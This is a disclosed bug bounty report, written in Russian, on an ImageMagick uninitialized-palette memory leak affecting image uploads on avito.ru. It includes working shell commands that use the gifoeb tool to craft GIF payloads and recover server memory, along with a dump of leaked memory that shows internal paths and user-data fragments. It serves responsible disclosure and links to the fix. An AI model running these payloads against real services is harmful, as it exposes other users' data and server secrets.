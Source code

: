 # [avito.ru] ImageMagick uninitialized image palette

## Report Details
- **Report ID**: 271355
- **URL**: https://hackerone.com/reports/271355
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-09-24T19:10:37.775Z
- **Disclosed**: 2021-04-24T13:33:38.223Z

## Reporter
- **Username**: kxyry
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: avito

## Vulnerability Information
Привет!

При подаче объявления можно загружать фотографии. Они обрабатываются уязвимой версией ImageMagick.
Для эксплуатация запускаем https://github.com/neex/gifoeb
Генерируем payload.
```
r=640x480
mkdir -p for_upload &&
for i in `seq 1 10`; do
   ./gifoeb gen $r for_upload/$i.gif;
done
```
Загружаем наши картинки из превью (заменив разрешение на 640x480), выгружаем результат в папку ```previews```
Запускаем скрипт.
```
  for p in previews/*; do
    ./gifoeb recover $p | strings;
  done
```
Видим лики из памяти. Из-за того, что в результате обработки мы получаем jpeg формат, в выводе мы можем получить ошибки, которые мы можем устранить разными способами.

В результате эксплуатации я получил следующий лик памяти.
```
.i{~
xordIarh
ndew.sv
lohin
1_7560085
n`md
pinnd
7:2009406p
.i{~
9311c560
qegistratiooTine
sucsbrhcedNews
stbsbrhbddSelip
.i{~
Enails
isFosKnrcjteb
isPhbntol
irSobial
llSrbbkhog
creo
.i{~
#kz~
RELECT 11
TRSU
TRSU
w-data/t@
/khb
22T17:34920+13;00
st: /hpmf/wvw,data/tahs/auito/Ddolnz_1407090154/releard3/veodoq/cpnposer.../cpre0service-jm`ge-ttosage-cmhent/rsc/Cord/Clidntt/IlageTtorage.qhp
/hole/www-daua/tags/bviso0Eeploy`05/6181264/release2/vdneoq/dosd/sesvice.image-ssoragd-clienu/src0Cpre0Cmhents0ImagfTtosage.Q
Typd: multioart/fprm-dat`; bpundary=--------------------
3U:94n[45
o"9bf952+:3k3>D-3=e
vshoufN^
btTmZu]kuP
6#)6-T:9>0#li&OGV*92q)4;0[k/Io_
szammtvOmnpO_ydQ
ggiOolbu_iE_
7_^ldWqeoG
-QQnFhdfQt_
`lGfnPhsblxea
ktIgflund
knYuabWv
GoikBT
bKOk_lsyv
gtItayXs
ST_bglnX
#\t^UyoVZ]iQabAldn
Xy^tkndWk`Y=cO
 xdc
1f\wquwlrR_p}<|jjlaeLguf
HXU1
]KUP
[TNn
:40+13;00
URSS
TRSU
URSS
1/07/
itn.ru.ru/images/024/62/07/
th: 38297
Cpmse0
URSS
xordIarh
ndew.sv
lohin
1_7560085
n`md
pinnd
7:2009406p
9311c560
qegistratiooTine
sucsbrhcedNews
stbsbrhbddSelip
Enails
isFosKnrcjteb
isPhbntol
irSobial
llSrbbkhog
creo
/hole/www-daua/s1
```

**Рекомендации**
Ошибка, приводящая к утечке данных из неинициализированной палитры в ImageMagick позволяет просматривать фрагменты памяти сервера. В этом процессе может оказаться что-то интересное, например: данные других пользователей, ключи, пароли итд. Поэтому результат эксплуатации может быть очень серьёзен.
Оригинальный issue и описание уязвимости на гитхабе https://github.com/ImageMagick/ImageMagick/issues/592.
Патч, который закрывает данную уязвимость https://github.com/ImageMagick/ImageMagick/commit/10aae21bf9dac47e16d8fcde7eba7f7f9d1e52f8

## Attachments
No attachments
